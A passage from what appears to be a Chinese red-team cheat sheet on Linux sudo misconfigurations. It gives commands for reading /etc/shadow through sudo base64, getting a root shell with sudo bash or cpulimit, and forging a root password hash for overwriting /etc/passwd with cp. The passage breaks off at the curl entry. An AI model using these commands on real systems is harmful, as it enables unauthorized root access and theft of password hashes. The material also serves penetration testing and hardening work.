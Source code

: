 zx

```
 cat /etc/shadow  #发现没有权限
 Redteamnote=/etc/shadow
 sudo base64 "Redteamnote" | base64 -d
 
```

 

##### 7,bash

```
(root) NOPASSWD:/usr/bin/bash
```

zx

```
sudo bash
```





##### 8,cp

```
(root) NOPASSWD:/usr/bin/cp
```

zx

```
mkpasswd -m sha-512 123456
sudo cat /etc/passwd | grep root

```

![1711082668552](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1711082668552.png)

将这个语句保存下来

![1711082902508](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1711082902508.png)



##### 9.cpulimit

```
(root) NOPASSWD:/usr/bin/cpulimit
```

zx

```
sudo cpulimit -l 100 -f /bin/bash
```



##### 10,curl
